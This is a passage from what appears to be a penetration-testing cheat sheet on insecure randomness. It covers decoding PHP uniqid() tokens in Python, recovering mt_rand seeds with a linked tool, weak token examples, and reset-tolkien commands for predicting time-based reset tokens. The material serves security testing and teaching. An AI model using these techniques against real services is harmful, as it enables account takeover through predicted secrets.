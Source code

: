 ### Tools

```py
import math
import datetime

def uniqid(timestamp: float) -> str:
    sec = math.floor(timestamp)
    usec = round(1000000 * (timestamp - sec))
    return "%8x%05x" % (sec, usec)

def reverse_uniqid(value: str) -> float:
    sec = int(value[:8], 16)
    usec = int(value[8:], 16)
    return float(f"{sec}.{usec}")

tokens = ["6659cea087cd6" , "6659cea087cea"]
for token in tokens:
    t = float(reverse_uniqid(token))
    d = datetime.datetime.fromtimestamp(t)
    print(f"{token} - {t} => {d}")
```

## mt_rand

Breaking mt_rand() with two output values and no bruteforce.

* [ambionics/mt_rand-reverse](https://github.com/ambionics/mt_rand-reverse) - Script to recover mt_rand()'s seed with only two outputs and without any bruteforce.

```ps1
./display_mt_rand.php 12345678 123
712530069 674417379

./reverse_mt_rand.py 712530069 674417379 123 1
```

## Custom Algorithms

Creating your own randomness algorithm is generally not recommended. Below are some examples found on GitHub or StackOverflow that are sometimes used in production, but may not be reliable or secure.

* `$token = md5($emailId).rand(10,9999);`
* `$token = md5(time()+123456789 % rand(4000, 55000000));`

### Tools

Generic identification and sandwich attack:

* [AethliosIK/reset-tolkien](https://github.com/AethliosIK/reset-tolkien) - Insecure time-based secret exploitation and Sandwich attack implementation Resources

    ```ps1
    reset-tolkien detect 660430516ffcf -d "Wed, 27 Mar 2024 14:42:25 GMT" --prefixes "attacker@example.com" --suffixes "attacker@example.com" --timezone "-7"
    reset-tolkien sandwich 660430516ffcf -bt 1711550546.485597 -et 1711550546.505134 -o output.txt --token-format="uniqid"
    ```
